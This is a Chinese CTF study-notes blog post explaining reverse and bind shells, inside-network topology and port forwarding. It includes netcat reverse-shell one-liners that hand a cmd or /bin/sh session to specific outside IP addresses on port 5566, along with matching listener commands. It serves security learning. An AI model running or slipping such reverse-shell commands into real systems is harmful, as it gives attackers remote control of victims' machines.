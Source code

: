```yaml
---
title: 20250110CTF学习笔记36
date: 2025-01-08
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true




















---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第52天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载29-47

## 反弹Shell

### 反向连接演示

**反向连接原理：**

- 主动给出去，对方监听，区别于正向连接的`本地监听，等待对方来连`
- 反向连接是谁监听，就控制对方

**Linux控制Windows：**

1. Windows主动把CMD的权限交给某个IP和端口

   ```shell
   nc -e cmd 47.94.236.117 5566
   ```

2. Linux上监听自己的5566端口，等待上钩的鱼，而Windows是主动把钩给Linux

   ```shell
   ncat -lvp 5566
   ```

**Windows控制Linux：**

1. 在Windows上监听5566

   ```shell
   nc -lvp 5566
   ```

2. 绑定自己的sh，主动给到对方的5566端口（这里`47.122.23.131 5566`指的是windows的IP和端口）

   ```shell
   ncat -e /bin/sh 47.122.23.131 5566
   ```

3.  实际上这就是Linux主动把权限给到Windows远程上的5566端口，区别于正向连接的Windows主动控制Linux

### 总结

这其实是一个正反向的问题，还是刚才的图

- Linux控制Windows有两种选择，一种是正向连接，一种是反向连接。
  1. 正向连接是Linux主动找到Windows，在Windows本地进行监听，Linux连接Windows的本地端口来实现
  2. 反向连接是由Windows主动把权限给到Linux，在Linux做本地监听来实现
- Windows控制Linux也有两种选择，一种是正向连接，一种是反向连接
  1. 正向连接是Windows主动找到Linux，在Linux本地进行监听，Windows连接Linux的本地端口来实现
  2. 反向连接是由Linux主动把权限给到Windows，在Windows做本地监听来实现



### 反弹Shell在内网环境的应用

**了解内网：**类似公司、学校、网吧都是内网环境，他们的组网方式是通过公网IP来上网的。当用户在运营商处办理宽带业务后，运营商通常会提供一个上网账号，用户需将此账号配置到路由器上相应位置，随后，连接至该路由器的各个终端设备，便可依托此账号接入互联网，实现上网功能。

**思考：**如果要控制内部环境的某一台机器，会出现什么问题呢？

这就涉及到外网IP的单个唯一性，就只有一个主网IP，这个IP地址是全球唯一的。

![image-20250110213622805](/img/ctfLearn/image-20250110213622805.png)

这种情况下只能用反向连接，因为我们自己服务器IP是全球唯一的，但我们正向连接的话，只能找到路由器这一层，找不到下方的哪台机器。

**特殊情况：**如果我们要让路由器知道是我们找的哪台机器，这就需要在路由器设置端口转发/端口映射。